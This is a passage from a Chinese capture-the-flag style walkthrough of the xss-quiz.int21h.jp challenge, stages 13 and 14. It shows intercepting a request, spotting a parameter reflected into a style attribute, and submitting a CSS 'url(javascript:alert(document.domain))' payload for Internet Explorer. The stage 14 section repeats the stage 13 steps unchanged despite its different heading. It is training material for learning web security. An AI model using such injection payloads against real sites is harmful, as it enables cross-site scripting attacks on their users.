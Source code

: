 打开拦截，刷新

```
p1=background-color%3Asalmon
```

> 发现只有一个可控参数

**查看回显**

关闭拦截，查看源码

```
<input type="text" name="p1" size="60" style="background-color:salmon" value="background-color:salmon">
```

> 发现两处回显为	style和value
>
> 其中 style 为 css 代码，可以在 IE 通过 background-images:url() 指定伪协议 

**判断能否执行 js**

在 IE 提交 payload

```
background-images:url(javascript:alert(document.domain));
```

> 成功注入

### 1.2.10 Stage #14 通过层叠样式表中的内联注释进行注入

> https://xss-quiz.int21h.jp/stage-_-14.php

**查看可控参数**

打开拦截，刷新

```
p1=background-color%3Asalmon
```

> 只有一个可控参数

**查看回显**

关闭拦截，查看源码

```
<input type="text" name="p1" size="60" style="background-color:salmon" value="background-color:salmon">
```

>发现两处回显为	style和value
>
>其中 style 可以在 IE 通过 background-images:url() 指定伪协议 

**判断能否执行 js**

在 IE 提交 payload

```
background-images:url(javascript:alert(document.domain));
```
